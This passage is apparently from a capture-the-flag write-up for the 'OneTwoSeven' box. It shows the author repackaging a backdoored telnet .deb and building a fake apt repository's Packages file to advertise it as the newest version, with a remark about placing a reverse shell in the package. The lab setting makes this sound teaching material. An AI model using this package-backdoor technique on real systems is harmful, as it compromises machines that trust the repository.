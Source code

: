 ```

```

Since I already have access to the box, this gives me flexibility to run different things without making an entirely new package. Were I trying to get access to a new box, I would put a reverse shell in where I call `/tmp/.d` now.

Now repackage it:

```

root@kali# dpkg-deb -b modified_telnet/ telnet_0.17-42_amd64.deb
dpkg-deb: building package 'telnet' in 'telnet_0.17-42_amd64.deb'.

```

### Repo Files

To impersonate a repository, I need to have a few files in place.

#### Packages

A `Packages` file gives the current versions of packages available. I’m going to create one with just `telnet` in it, and update it to advertise my backdoored version as the latest.

I’ll get the Packages data from OneTwoSeven:

```

www-admin-data@onetwoseven:/$ cat /var/lib/apt/lists/de.deb.devuan.org_merged_dists_ascii_main_binary-amd64_Packages | grep -A 18 "Package: telnet$"
Package: telnet
Version: 0.17-41
Installed-Size: 157
Maintainer: Mats Erik Andersson <mats.andersson@gisladisker.se>
Architecture: amd64
Replaces: netstd
Provides: telnet-client
Depends: netbase, libc6 (>= 2.15), libstdc++6 (>= 5)
Description: basic telnet client
Description-md5: 80f238fa65c82c04a1590f2a062f47bb
Source: netkit-telnet
Tag: admin::login, interface::shell, network::client, protocol::ipv6,
 protocol::telnet, role::program, uitoolkit::ncurses, use::login
Section: net
Priority: standard
Filename: pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-41_amd64.deb
Size: 72008
MD5sum: 3409d7e40403699b890c68323e200874
SHA256: 95aa315eb5b3be12fc7a91a8d7ee8eba7af99120641067ec39694200e034a5ae

```

I’ll need to get the size, MD5, and SHA256:

